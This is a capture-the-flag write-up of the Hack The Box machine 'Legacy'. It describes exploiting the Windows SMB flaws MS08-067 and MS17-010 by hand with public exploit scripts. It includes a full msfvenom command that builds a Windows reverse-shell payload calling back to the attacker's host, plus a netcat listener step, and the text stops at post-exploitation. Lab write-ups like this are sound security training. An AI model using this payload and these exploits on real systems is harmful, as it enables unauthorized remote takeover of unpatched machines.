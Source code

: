 ![legacy](https://user-images.githubusercontent.com/43796175/105492077-5e740680-5c85-11eb-8224-07901100704c.jpg)

## LEGACY: Write Up

In this machine i learn about MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143), two exploits of SMB. Exploit this vulnerability manually is simple.

# 01: Information Gathering

First of all i ran nmap with basic commands and i saw two open ports and one closed:

![nmap](https://user-images.githubusercontent.com/43796175/105779180-cf444880-5f3b-11eb-8233-22831472876c.jpg)

Then i did a deeper scan with nmap against 445 port:

![smbnmap](https://user-images.githubusercontent.com/43796175/105779606-b5573580-5f3c-11eb-87a3-a4b20fd80a5b.jpg)
![smbnmap02](https://user-images.githubusercontent.com/43796175/105779613-b7b98f80-5f3c-11eb-86f4-92610487a8b2.jpg)

Nmap showed MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143) are very interesting to exploit.

# 02: Threat Modeling

In my mental map smbclient and smbmap were the first option to test, but without results:

![smbno](https://user-images.githubusercontent.com/43796175/105781825-3d3f3e80-5f41-11eb-8e15-73347d9c62f0.jpg)


# 03: Vulnerability Analysis

Both of these vulnerabilities (MS-08-067 & MS-17-010) gives a shell as system and each one have a metasploit module for exploit easily but i will show how exploit this manually.

# 04: Exploitation

## MS-08-067

I will use [this exploit](https://github.com/andyacer/ms08_067) for exploit the vulnerability, this script requires impacket and replace the default shellcode with some of my own. Ok, to make the shellcode i used *msfvenom*:

`
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
`


![venom,](https://user-images.githubusercontent.com/43796175/105800547-fb27f400-5f64-11eb-9111-86f7272892ed.jpg)

The parameters are:

* -p: Type of payload (Single payload, you can learn about this [here](https://github.com/rapid7/metasploit-framework/wiki/How-payloads-work) )
* LHOST: Host where reverse connection is follow
* LPORT: Port where reverse connection is follow
* EXITFUNC: How is the exit
* -b: The bad characters not to use (The script gave me this)
* -f: Output in python format
* -v: Have the code set the variable *shellcode*
* -a: Architecture of the output
* --platform: OS for script (Windows in this case)

Then i will take this shellcode into the script and replace in the original:

![replce](https://user-images.githubusercontent.com/43796175/105800728-6b367a00-5f65-11eb-98b4-e046daddc172.jpg)

The exploit require that i know the version of Windows and language pack are running in the victim. I ran nmap again for this purpose:

![os](https://user-images.githubusercontent.com/43796175/105800920-e9931c00-5f65-11eb-9d2a-2bed37a3e6ba.jpg)

Apparently the version can be Windows XP, and with the language pack i tried to find the right one.

NOTE: In this point, i had a problem with *pip* and *pip3* in Parrot OS Security, for repair part [this problem](https://forum.hackthebox.eu/discussion/3940/installing-pip2-apt-install-python-pip-no-longer-works) i need a file "*get_pip.py*" provided by [Dr. Zaiuss](https://github.com/zaiuss). You can find this file [*here*](https://github.com/0xCGonzalo/HtB-Write-Ups/blob/main/Machines/Legacy/get_pip.py)

Now, i set a netcat in the port 443 (configured in my shellcode):

![nc](https://user-images.githubusercontent.com/43796175/105801440-1f84d000-5f67-11eb-9ce4-6d4a88410f89.jpg)

And i run the script:

![okcon](https://user-images.githubusercontent.com/43796175/105801530-4d6a1480-5f67-11eb-9ae5-b0d2467afe71.jpg)

I checked my connection and i got a reverse shell:

![ok1](https://user-images.githubusercontent.com/43796175/105801634-85715780-5f67-11eb-803c-6a6c43970390.jpg)

## MS-17-010

I found a lot of exploits for MS-17-010 but doesn't work in Windows XP. Fortunately, i found [this repo](https://github.com/helviojunior/MS17-010) of [Helviojunior](https://github.com/helviojunior), he added a "*send_and_execute.py*", which i can give an executable and it will upload and run it:

![wget2](https://user-images.githubusercontent.com/43796175/105803070-a25b5a00-5f6a-11eb-9c60-759e250c976e.jpg)

I will use *msfvenom* again, but in this time, i don’t need to worry about bad characters or variable names because i can use *exe* file:

![msvenom2](https://user-images.githubusercontent.com/43796175/105803357-4ba25000-5f6b-11eb-8d59-b5d24a3ccafb.jpg)

Now i will start a listener and then run the exploit:

![last1](https://user-images.githubusercontent.com/43796175/105803825-3ed22c00-5f6c-11eb-92b5-158c5576cc8f.jpg)

And i get a shell:

![ok2](https://user-images.githubusercontent.com/43796175/105803896-6fb26100-5f6c-11eb-845d-205f7a81bc47.jpg)

# 05: Post-Exploitation

As you may noticed, the system command "*whoami*" doesn't work in anyone case. Let's fix this.

First, is necessary check the path of this binary in your system (i'm running Parrot OS, but in Kali Linux work fine):


